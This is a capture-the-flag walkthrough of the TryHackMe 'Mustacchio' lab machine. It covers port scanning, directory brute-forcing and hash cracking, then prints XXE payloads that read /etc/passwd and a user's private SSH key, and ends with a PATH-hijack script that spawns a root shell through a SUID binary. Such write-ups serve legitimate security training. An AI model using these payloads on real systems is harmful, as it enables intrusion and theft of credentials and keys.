 ```yaml
---
title: Walkthrough - Mustacchio
published: true
---
```


XXE, Enumeration, PrivEsc, Web, PATH. Boot2Root Machine

[https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.12.244 -vvv``

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- pretty standardish website on port 80 not much to see here by an initial look. nothing in the source codes.

- ``gobuster dir -u http://10.10.12.244/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

- our gobuster scan finds us ``/custom/`` that has ``/js/`` which contains a ``users.bak`` file. Downloading that and checking it out we find credentials for admin with a SHA1 hash. Crack with hashcat and rockyou ``hashcat -m 100 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b /usr/share/seclists/Passwords/rockyou.txt``

- port 8765 we have a login page we can use these credentials ``admin:bulldog19``
- the source code on ``home.php`` someone left us a comment ``<!-- Barry, you can now SSH in using your key!-->``
- upon submission we also find the location of another ``.bak``, ``dontforget.bak`` which gives us an xml comment and also submitting the form black gives us an alert telling us to submit an xml code.
- pasting the xml from ``dontforget.bak`` lets us see how the code is working.
- we can alter the code in order to give us system information.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>0xskar</author>
  <com>hacked</com>
</comment> 
```

- since we have a hint that barry can login to the server with his rsa key lets get that to our system

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>0xskar</author>
  <com>hacked</com>
</comment> 
```

- save the rsa to a file and ``ssh2john``. Crack using rockyou and ``john``. and we recieve ``urieljames`` for the credentials.

- login to ssh with the key and pass to get our user flag.

* * * 

## What is the user flag?

![0xskar](/assets/mustacchio02.png)

* * * 

## What is the root flag?

- ``find / -perm -u=s -type f 2>/dev/null`` we find a file with suid set ``home/joe/live_log``
- this is an ELF, lets get it over to our machine and try to check it out in Ghidra.

it has a main function that used ``tail`` to display the nginx logs. we can also see this by running ``strings``

because this function calls just ``tail`` and not its full path we can do a ``path`` exploit

- create path 

```
barry@mustacchio:/var/log$ cd ~
barry@mustacchio:~$ export PATH=$PWD:$PATH
barry@mustacchio:~$ echo $PATH
/home/barry:/var/log:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- create ``tail`` in path

```
barry@mustacchio:~$ vi tail
barry@mustacchio:~$ cat tail
#!/usr/bin/python3
import pty
pty.spawn("/bin/bash")
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ /home/joe/live_log 
root@mustacchio:~# 
```

* * * 

